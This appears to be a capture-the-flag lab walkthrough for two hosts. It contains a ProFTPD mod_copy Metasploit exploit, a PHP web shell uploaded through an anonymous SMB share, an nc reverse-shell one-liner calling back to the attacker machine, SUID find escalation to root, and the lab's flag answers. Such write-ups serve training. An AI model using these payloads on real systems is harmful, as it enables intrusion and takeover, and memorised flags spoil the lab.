

## Tasks



---
## target1.ine.local — Enumeration

```
nmap -sC -sV target1.ine.local
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 02:42:C0:BF:38:03 (Unknown)
Service Info: OS: Unix
```

---
## Flag 1

> _A vulnerable service may be running on target1.ine.local. If exploitable, retrieve the flag from the root directory._

ProFTPD 1.3.5 is vulnerable to the `mod_copy` command execution issue which lets an unauthenticated FTP client copy arbitrary files server-side :

```
msf6 > search proftpd 1.3.5
0  exploit/unix/ftp/proftpd_modcopy_exec   2015-04-22   excellent   Yes
```

```
msf6 > use exploit/unix/ftp/proftpd_modcopy_exec
msf6 exploit(...) > set rhost target1.ine.local
msf6 exploit(...) > set lhost eth1
msf6 exploit(...) > run
```

The default `SITEPATH` (`/var/www`) is not writable, causing the first attempt to fail. Pointing it at the actual document root resolves this:

```
msf6 exploit(...) > set sitepath /var/www/html
msf6 exploit(...) > run

[*] 192.191.56.3:80 - Executing PHP payload /0pop2F.php
[*] Command shell session 1 opened (192.191.56.2:4444 -> 192.191.56.3:58290)
```

The shell lands as `www-data`. Upgrading to a full TTY and reading the flag from `/`:

```
www-data@target1:/var/www/html$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@target1:/var/www/html$ cat /flag1.txt

FLAG1{6594026c7c2a45dab79442482ad96062}
Remember, the magical word is 'letmein'
```

The flag file itself drops the hint: `letmein` is the word that turns out to be the key for Flag 2.

---
## Flag 2

> _A quick interaction with a local network service on target1.ine.local may reveal this flag. Use the hint given in the previous flag._

Enumerating listening sockets from inside the shell shows a service bound only to loopback:

```
www-data@target1:/var/www/html$ netstat -tlpn

tcp   0   0 127.0.0.1:8888   0.0.0.0:*   LISTEN   -
```

Since the service only listens on `127.0.0.1`, it has to be reached from the compromised host itself. Connecting with `nc` and supplying the passphrase recovered from Flag 1:

```
www-data@target1:/var/www/html$ nc -nv 127.0.0.1 8888

Connection to 127.0.0.1 8888 port [tcp/*] succeeded!
Enter the secret passphrase: letmein
FLAG2{713b0bf810f24643ab5eae46a56accf7}
```

---
## target2.ine.local — Enumeration

```
nmap -sC -sV target2.ine.local
```

```
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Can you Pwn me?
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
```

---
## Flag 3

> _A misconfigured service running on target2.ine.local may help you gain access to the machine. Can you retrieve the flag from the root directory?_

A null-session share listing against SMB reveals a writable share served directly out of the webroot:

```
crackmapexec smb target2.ine.local -u "" -p "" --shares
```

```
Share          Permissions   Remark
print$                       Printer Drivers
site-uploads   READ,WRITE
IPC$                         IPC Service
```

A PHP web shell is uploaded into `site-uploads` via anonymous SMB write access:

```
echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php

smbclient //target2.ine.local/site-uploads
smb: \> put shell.php
```

Because the share maps onto the Apache document root, the shell is immediately reachable over HTTP, granting command execution as `www-data`:

```
curl http://target2.ine.local/site-uploads/shell.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Listing the filesystem root and reading the flag:

```
curl "http://target2.ine.local/site-uploads/shell.php?cmd=ls%20/"
...
flag3.txt
...

curl "http://target2.ine.local/site-uploads/shell.php?cmd=cat%20/flag3.txt"
FLAG3{e757f789de1f4632879b6d23c9349874}
```

---
## Flag 4

> _Can you escalate to root on target2.ine.local and read the flag from the restricted /root directory?_

The web shell is upgraded to an interactive reverse shell using a named-pipe `nc` one-liner triggered through the `cmd` parameter:

```
curl "http://target2.ine.local/site-uploads/shell.php?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|sh%20-i%202>%261|nc%20192.191.56.2%209001%20>/tmp/f"
```

```
nc -lvnp 9001
connect to [192.191.56.2] from (UNKNOWN) [192.191.56.4]
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@target2:/var/www/html/site-uploads$
```

`sudo` is not installed, so privilege escalation is pursued through SUID binaries instead:

```
www-data@target2:~$ find / -user root -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/find
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/umount
```

`find` itself carries the SUID bit. Its `-exec` action runs with the binary's effective privileges, so spawning a shell via `-exec` yields a root shell directly.

Reference: https://gtfobins.org/gtfobins/find/

```
www-data@target2:~$ find . -exec /bin/sh -p \; -quit

# whoami
root

# cat /root/flag4.txt
FLAG4{b05776ffef0046ec82cb9deb843d68c3}
```

---
## Summary

|#|Target|Technique|Flag|
|---|---|---|---|
|1|target1|ProFTPD 1.3.5 `mod_copy` unauthenticated RCE|`FLAG1{6594026c7c2a45dab79442482ad96062}`|
|2|target1|Loopback-only service + recovered passphrase|`FLAG2{713b0bf810f24643ab5eae46a56accf7}`|
|3|target2|Anonymous SMB write share + PHP webshell upload|`FLAG3{e757f789de1f4632879b6d23c9349874}`|
|4|target2|SUID `find` binary privilege escalation|`FLAG4{b05776ffef0046ec82cb9deb843d68c3}`|```